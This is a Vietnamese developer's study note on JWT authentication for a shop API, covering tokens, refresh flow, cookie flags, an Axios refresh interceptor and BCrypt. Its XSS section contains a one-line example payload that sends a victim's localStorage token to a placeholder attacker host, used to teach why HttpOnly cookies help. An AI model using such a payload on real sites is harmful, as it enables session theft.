










# 📅 NGÀY 5: IDENTITY SERVICE & JWT AUTHENTICATION FLOW

> **Mục tiêu:** Xây dựng dịch vụ xác thực người dùng an toàn.  
> **Trạng thái:** ⏳ Đang học – Phần lý thuyết đã nắm, chưa code

---

## 1. XÁC THỰC LÀ GÌ? PHÂN BIỆT AUTHENTICATION vs AUTHORIZATION

### 1.1 Hai khái niệm khác nhau hoàn toàn

**Ví dụ thực tế:** Bạn vào tòa nhà công ty:
- **Authentication** (Xác thực) = Bảo vệ kiểm tra **bạn là ai?** → Quẹt thẻ nhân viên → "Đúng, đây là Nguyễn Văn A"
- **Authorization** (Phân quyền) = Bảo vệ kiểm tra **bạn có quyền vào không?** → "Nguyễn Văn A là nhân viên IT, được vào phòng server. KHÔNG được vào phòng giám đốc"



| | Authentication (401) | Authorization (403) |
|:--|:----|:----|
| **Câu hỏi** | Bạn là ai? | Bạn có quyền không? |
| **Khi fail** | 401 Unauthorized | 403 Forbidden |
| **Giải pháp** | Đăng nhập lại | Liên hệ admin cấp quyền |
| **Trong dự án** | JWT Token | Role: Admin, Customer |

---

## 2. JWT – HOẠT ĐỘNG CHI TIẾT

### 2.1 JWT là gì?

**JWT = JSON Web Token** – Một chuỗi string mã hóa chứa thông tin user. Backend **KHÔNG cần lưu session** trên server → **Stateless**.

**Ví dụ thực tế:** JWT giống như **CMND/CCCD**:
- Bạn mang CCCD đi đâu cũng được xác minh (không cần gọi về quê hỏi)
- CCCD có **ảnh + thông tin** (Claims) và **con dấu** (Signature)
- Ai cũng **đọc được** thông tin trên CCCD (base64 decode) nhưng **KHÔNG THỂ giả mạo** con dấu

### 2.2 Cấu trúc JWT – 3 phần ngăn bởi dấu chấm

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.   ← Header (base64)
eyJzdWIiOiJ1c2VyLWlkIiwiZW1haWwiOiJ0ZXN0QG1haWwuY29tIiwicm9sZSI6IkN1c3RvbWVyIn0.   ← Payload (base64)
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c   ← Signature
```



### 2.3 Backend verify JWT như thế nào?



> ⚡ **Stateless = Cực nhanh!** Backend verify chỉ bằng **phép tính toán** (HMAC), KHÔNG cần query database. 1 server verify được hàng triệu token/giây.

---

## 3. ACCESS TOKEN + REFRESH TOKEN – TẠI SAO CẦN CẢ HAI?

### 3.1 Vấn đề: Chỉ dùng Access Token



### 3.2 Giải pháp: 2 loại token bổ trợ nhau



### 3.3 Luồng đầy đủ: Login → API calls → Token hết hạn → Refresh → Logout

```mermaid
sequenceDiagram
    participant Client as 🌐 Frontend
    participant API as Shop.API
    participant DB as PostgreSQL

    Note over Client,DB: ════════ BƯỚC 1: ĐĂNG NHẬP ════════

    Client->>API: POST /api/auth/login<br/>{ "email": "user@mail.com", "password": "Abc@123" }

    API->>DB: SELECT * FROM Users WHERE Email = 'user@mail.com'
    DB-->>API: User { Id, Email, PasswordHash, ... }

    API->>API: BCrypt.Verify("Abc@123", user.PasswordHash)
    Note over API: So sánh password nhập vào<br/>với hash trong DB

    alt ❌ Sai mật khẩu
        API-->>Client: 401 Unauthorized "Invalid credentials"
    else ✅ Đúng mật khẩu
        API->>API: 1️⃣ Generate Access Token (JWT, 15 phút)<br/>Claims: { sub: userId, email, role: "Customer" }
        API->>API: 2️⃣ Generate Refresh Token (random 64 bytes → base64)
        API->>API: 3️⃣ user.SetRefreshToken(refreshToken, expiry)
        API->>DB: UPDATE Users SET RefreshToken=@rt, RefreshTokenExpiry=@exp
        API-->>Client: Body: { "accessToken": "eyJhbG..." }
        API-->>Client: Set-Cookie: refreshToken=abc123;<br/>HttpOnly; Secure; SameSite=Strict; Path=/api/auth
    end

    Note over Client,DB: ════════ BƯỚC 2: GỌI API (Bình thường) ════════

    Client->>API: GET /api/products<br/>Header: Authorization: Bearer eyJhbG...
    API->>API: Verify JWT signature ⚡ (không query DB!)
    API-->>Client: 200 OK { products: [...] }

    Client->>API: POST /api/orders { ... }<br/>Header: Authorization: Bearer eyJhbG...
    API->>API: Verify JWT → đọc UserId từ Claims
    API-->>Client: 201 Created

    Note over Client,DB: ════════ BƯỚC 3: ACCESS TOKEN HẾT HẠN ════════

    Client->>API: GET /api/orders<br/>Header: Authorization: Bearer eyJhbG... (EXPIRED!)
    API-->>Client: 401 Unauthorized "Token expired"

    Note over Client: Axios Interceptor bắt 401<br/>→ Tự động gọi refresh!

    Client->>API: POST /api/auth/refresh-token<br/>Cookie: refreshToken=abc123 (browser TỰ ĐỘNG gửi)
    Note over Client: ⚠️ Frontend KHÔNG cần gửi<br/>refresh token trong body!<br/>Cookie HttpOnly → browser tự gửi

    API->>DB: SELECT * FROM Users WHERE Id = @userId
    API->>API: user.RefreshToken == cookie.refreshToken? ✅
    API->>API: user.RefreshTokenExpiry > DateTime.UtcNow? ✅
    API->>API: Generate NEW Access Token + NEW Refresh Token
    API->>API: user.SetRefreshToken(newRefreshToken, newExpiry)
    API->>DB: UPDATE Users SET RefreshToken=@newRt

    API-->>Client: Body: { "accessToken": "eyJnew..." }
    API-->>Client: Set-Cookie: refreshToken=newToken; HttpOnly

    Note over Client: Axios retry request gốc<br/>với Access Token mới!

    Note over Client,DB: ════════ BƯỚC 4: ĐĂNG XUẤT ════════

    Client->>API: POST /api/auth/logout
    API->>API: user.RevokeRefreshToken()
    API->>DB: UPDATE Users SET RefreshToken=NULL, RefreshTokenExpiry=NULL
    API-->>Client: Set-Cookie: refreshToken=; Max-Age=0 (xóa cookie)
    API-->>Client: 204 No Content
```

---

## 4. HTTPONLY COOKIE vs LOCALSTORAGE – BẢO MẬT CHI TIẾT

### 4.1 XSS Attack là gì?

**XSS = Cross-Site Scripting** – Hacker inject JavaScript độc hại vào website của bạn.

**Cách tấn công:** Hacker nhập vào ô bình luận: `<script>fetch('https://hacker.com?token=' + localStorage.getItem('token'))</script>` → Nếu website render bình luận không escape → script chạy → cướp token!

### 4.2 So sánh chi tiết



### 4.3 Cookie Flags – Giải thích chi tiết

```
Set-Cookie: refreshToken=abc123; HttpOnly; Secure; SameSite=Strict; Path=/api/auth; Max-Age=2592000
```

| Flag | Ý nghĩa | Chống attack gì |
|:-----|:--------|:----------------|
| `HttpOnly` | JavaScript **KHÔNG THỂ** đọc cookie | **XSS** – Hacker không cướp được token |
| `Secure` | Chỉ gửi qua HTTPS (không HTTP) | **Man-in-the-Middle** – Không bị sniff trên mạng |
| `SameSite=Strict` | Chỉ gửi nếu request từ cùng domain | **CSRF** – Website khác không trigger được |
| `Path=/api/auth` | Chỉ gửi kèm request đến `/api/auth/*` | **Giảm diện tấn công** – Không gửi kèm mọi request |
| `Max-Age=2592000` | Cookie sống 30 ngày (30×24×60×60) | Tự hết hạn nếu user không quay lại |

---

## 5. AXIOS SILENT REFRESH – XỬ LÝ 401 TỰ ĐỘNG

### 5.1 Vấn đề: 10 API cùng nhận 401



### 5.2 Giải pháp: Promise Deduplication (??=)



### 5.3 Code pattern – Giải thích từng dòng

```javascript
// Biến module-level: lưu Promise đang pending
let refreshRequest = null;

// Axios Response Interceptor
api.interceptors.response.use(
  (response) => response,  // Response OK → trả thẳng

  async (error) => {
    // Chỉ xử lý lỗi 401
    if (error.response?.status !== 401) {
      return Promise.reject(error);
    }

    // ??= (Nullish Coalescing Assignment)
    // Nếu refreshRequest === null → gán = axios.post(...)
    // Nếu refreshRequest !== null → KHÔNG làm gì (dùng lại Promise cũ!)
    refreshRequest ??= api.post('/api/auth/refresh-token');
    // ↑ Dù 10 lần vào đây cùng lúc → CHỈ 1 request thực sự được gửi

    try {
      const { data } = await refreshRequest;
      // ↑ Tất cả 10 lần đều await CÙNG 1 Promise
      //   → Nhận cùng 1 kết quả

      // Cập nhật Access Token mới
      setAccessToken(data.accessToken);

      // Retry request GỐC (request bị 401 ban đầu)
      error.config.headers.Authorization = `Bearer ${data.accessToken}`;
      return api(error.config);
      // ↑ Gửi lại request gốc với token mới

    } catch (refreshError) {
      // Refresh cũng fail → user phải login lại
      logout();
      return Promise.reject(refreshError);

    } finally {
      // Reset cho lần refresh tiếp theo
      refreshRequest = null;
    }
  }
);
```

---

## 6. PASSWORD HASHING – BCRYPT

### 6.1 Tại sao KHÔNG lưu Plain Text?



### 6.2 BCrypt hoạt động như thế nào?



**Salt là gì?** Chuỗi ngẫu nhiên thêm vào password trước khi hash.
- Cùng password "123456" → mỗi user có hash KHÁC NHAU (vì salt khác)
- → Rainbow Table (bảng hash tính sẵn) trở nên **vô dụng**!

**Cost Factor (12) là gì?** Số vòng lặp hash: `2^12 = 4096 vòng`
- Cost 10: ~100ms → nhanh, ít bảo mật
- Cost 12: ~250ms → cân bằng (khuyến nghị)
- Cost 14: ~1s → chậm, rất bảo mật (chống brute force mạnh)

---

## 📝 CÂU HỎI ÔN TẬP NGÀY 5

1. **Authentication khác Authorization ở điểm nào?** (401 vs 403)
2. **JWT Stateless nghĩa là gì? Tại sao nhanh?**
3. **Payload của JWT có mã hóa không?** (gợi ý: base64 ≠ encryption)
4. **Tại sao cần cả Access Token LẪN Refresh Token?** Nếu chỉ dùng 1 thì sao?
5. **HttpOnly Cookie chống được XSS nhưng có chống được CSRF không?** (gợi ý: SameSite)
6. **Toán tử `??=` trong JavaScript hoạt động như thế nào?** Viết lại bằng if/else
7. **BCrypt Salt có tác dụng gì?** Nếu không có Salt thì sao?
8. **Cost Factor 12 nghĩa là bao nhiêu vòng hash?**

---

## 📝 TÓM TẮT NGÀY 5

**Kiến thức lý thuyết đã nắm:**
- Authentication (bạn là ai?) vs Authorization (bạn có quyền?)
- JWT: 3 phần (Header.Payload.Signature), verify bằng Secret Key, stateless
- Access Token (15 phút, JS memory) + Refresh Token (30 ngày, HttpOnly Cookie)
- HttpOnly Cookie chặn XSS, Secure chặn MitM, SameSite chặn CSRF
- Promise Deduplication (`??=`): Gom nhiều refresh thành 1 request
- BCrypt: Salt + Cost Factor → chống Rainbow Table + Brute Force

**Sẽ tự tay code (chưa làm):**
- Hoàn thiện `User` entity (constructor + domain methods)
- `IPasswordHasher` + `BCryptPasswordHasher`
- `IJwtTokenGenerator` + `JwtTokenGenerator`
- `RegisterCommand`, `LoginCommand`, `RefreshTokenCommand`
- `AuthController` (POST /register, /login, /refresh-token, /logout)
